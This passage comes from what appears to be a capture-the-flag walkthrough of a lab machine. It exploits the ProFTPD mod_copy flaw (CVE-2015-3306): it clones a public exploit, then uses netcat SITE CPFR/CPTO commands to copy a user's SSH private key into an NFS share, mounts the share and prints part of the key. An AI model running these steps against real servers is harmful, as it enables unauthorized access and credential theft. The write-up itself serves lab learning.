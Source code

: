 Lets get it and run it:

```shell
# Get the exploit
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git
cd exploit-CVE-2015-3306

# Run the exploit as indicated on the exploit documentation
python3 exploit.py --host 10.10.254.245 --port 21 --path "/var/www/html/"
python3 exploit.py --host 10.10.254.245 --port 21 --path "/home/kenobi/"
```

It didnt work, but searching on Google for more information about the exploit, we found another way to run the exploit:

```shell
# Connect to port 21 with netcat
nc 10.10.254.245 21

# Enter the complete path of the file we want to copy
SITE CPFR /home/kenobi/.ssh/id_rsa

# Enter the destination, we will move it into the mountable /var directory
SITE CPTO /var/tmp/id_rsa

# Note: We didnt have permission to move it straight to /var/id_rsa so we tried /var/tmp/id_rsa and it worked
```

### Mount NFS /var to see the contents of id_rsa

```shell
# Create mnt
sudo mkdir mnt

# Mount /var
sudo mount 10.10.254.245:/var mnt
cd mnt
cd tmp
ls -al

# There is the id_rsa
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-93e0a9ba85bc48ea84d94ec9654460ed-systemd-timesyncd.service-pY3cBM
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
```

Lets check the id_rsa:

```shell
cat id_rsa
```

```shell
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
```